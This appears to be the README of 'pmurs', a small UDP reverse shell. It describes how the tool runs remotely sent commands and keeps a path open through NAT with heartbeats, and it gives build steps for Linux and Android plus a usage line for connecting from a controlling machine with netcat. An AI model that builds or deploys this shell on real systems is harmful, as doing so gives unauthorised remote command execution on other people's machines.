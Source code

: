 # pmurs, AKA Poor Man's UDP Reverse Shell

This program opens a UDP socket and keeps executing whatever is received from
a remote IP/PORT in a shell, returning the output back. At the same time, it
sends a dummy UDP packet, a *heartbeat*, every `n` seconds to that IP/PORT to
open any NAT in the middle. Linux establishes a timeout of 60 seconds (see
`/proc/net/nf_conntrack`), so the interval should be shorter than that.

**I warn you: don't use this outside of a controlled environment**.

## Compilation

### For Linux

```bash
autoreconf --install
./configure
make
```

### For Android

Substitute `NDK` for the location of the downloaded Android NDK, and put the
standalone `ANDROID_TOOLCHAIN` wherever you want.

```bash
export ANDROID_TOOLCHAIN=/tmp/my-android-toolchain
$NDK/build/tools/make_standalone_toolchain.py \
    --arch arm --api 24 --install-dir $ANDROID_TOOLCHAIN
export PATH=$ANDROID_TOOLCHAIN/bin:$PATH
export AM_CFLAGS="-fPIE -pie"
autoreconf --install
./configure --host=arm-linux-androideabi TARGET_SHELL=/system/bin/sh
make
```

## Usage

In the *controlled* machine:

```bash
./pmurs <remote_IP> <remote_PORT> <local_PORT> <heartbeat_interval>
```

Then, in the *controlling* machine, you can, for instance, connect with `netcat`
and start sending commands.
